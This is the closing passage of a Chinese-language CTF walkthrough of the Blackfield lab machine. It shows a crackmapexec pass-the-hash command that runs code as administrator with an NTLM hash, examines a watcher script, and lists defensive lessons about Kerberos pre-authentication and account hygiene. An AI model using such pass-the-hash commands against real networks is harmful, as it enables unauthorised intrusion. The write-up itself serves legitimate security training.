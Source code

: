 或者使用`crackmapexec` 来执行代码:

```
cme smb 10.10.10.192 -u administrator -H 184fb5e5178480be64824d4cd53b99ee -d blackfield.local -x "whoami"
```

![](img/536aa085216f04792495f2a02c20d1c0.png)

同时检查 watcher.ps1 脚本:

![](img/bb07411b98610117ff76f08d3c821fd9.png)

该脚本每 30 秒运行一次，使用 Start-Sleep(sleep 只是一个别名)并通过 PowerShell Remoting 加密 root.txt。

## 经验教训

*   在 Kerberos 中禁用不需要预授权(导致对`support` 用户的访问)
*   禁用已经用于计算机取证/审计的帐户(导致用户帐户`audit2020`的存在)
*   在遭到破坏并且知道所有域凭证都暴露后，更改所有用户帐户的密码，尤其是高权限帐户(led 访问`svc_backup` 用户)

我的文章到此结束。我希望你学到了新的东西！感谢阅读！🍺